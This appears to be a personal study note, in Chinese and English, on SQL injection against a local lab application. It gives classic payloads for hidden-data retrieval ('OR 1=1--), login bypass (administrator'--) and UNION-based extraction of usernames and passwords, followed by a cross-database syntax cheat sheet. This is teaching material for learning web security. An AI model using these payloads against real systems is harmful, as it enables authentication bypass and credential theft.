

# sql注入

## SQL injection vulnerability

+ in WHERE clause allowing retrieval of hidden data
  ```html
  productCode参数传递 < '+OR+1=1--+ >
  ```  
  > http://localhost:8080/sql/p2?productCode='+OR+1=1--+
  ```html
  执行sql如下:
   select * from products where productCode = '' OR 1=1-- ' AND productID = 1001;
  ```

+ Subverting application logic
  ```
  登录逻辑：
  SELECT * FROM users WHERE username = '${username}' AND password = '${password}'
  An attacker can submit the input: < administrator'-- >
  执行如下：
  SELECT * FROM users WHERE username = 'administrator'--' AND password = '${password}'
  ```

+ Retrieving data from other database tables
  ```
  SELECT name, description FROM products WHERE category = 'Gifts'
  An attacker can submit the input: < ' UNION SELECT username, password FROM users-- >
  执行如下：
  SELECT name, description FROM products WHERE category = '' UNION SELECT username, password FROM users--'
  ```


+ Second-order SQL injection
  


#### SQL injection cheat sheet

+ 字符串拼接
    - Oracle	'foo'||'bar'
    - Microsoft	'foo'+'bar'
    - PostgreSQL	'foo'||'bar'
    - MySQL	'foo' 'bar' [Note the space between the two strings]
    - CONCAT('foo','bar')

+ 注释
    + Oracle
        + `--comment`
    + Microsoft
        + `--comment`
        - `/*comment*/`
    + PostgreSQL
        + `--comment`
        - `/*comment*/`
    + MySQL
        + `#comment`
        + `-- comment [Note the space after the double dash]`
        + `/*comment*/`

+ 字符串截取
  ```
  Oracle        SUBSTR('foobar', 4, 2)
  Microsoft     SUBSTRING('foobar', 4, 2)
  PostgreSQL    SUBSTRING('foobar', 4, 2)
  MySQL         SUBSTRING('foobar', 4, 2)
  ```

